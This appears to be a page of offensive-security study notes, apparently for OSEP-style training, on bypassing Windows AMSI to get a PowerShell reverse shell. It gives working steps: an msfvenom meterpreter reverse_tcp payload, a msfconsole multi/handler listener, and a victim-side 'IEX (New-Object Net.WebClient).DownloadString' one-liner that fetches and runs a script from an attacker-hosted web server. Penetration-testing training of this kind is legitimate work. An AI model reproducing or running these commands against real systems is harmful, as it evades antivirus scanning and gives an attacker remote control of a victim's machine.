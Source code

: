 # AMSI Bypass

<details>

<summary>Powershell Rev shell from CMD.exe</summary>

* Download all files from [https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI](https://github.com/beauknowstech/OSEP-Everything/tree/main/AMSI)

- Change Line 4 to Kali's IP
  * ![](<../.gitbook/assets/image (1) (1).png>)

* Host Python Webserver on Kali&#x20;
* Generate payload & put in line 47 of shellcoderunner.ps1<img src="../.gitbook/assets/image (3) (1).png" alt="" data-size="line">

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell
```

* Start Msfconsole listener

```
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

In Victim's cmd.exe shell, run:

```
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')
```

Following errors are expected:

<img src="../.gitbook/assets/image (4) (1).png" alt="" data-size="original">\


</details>



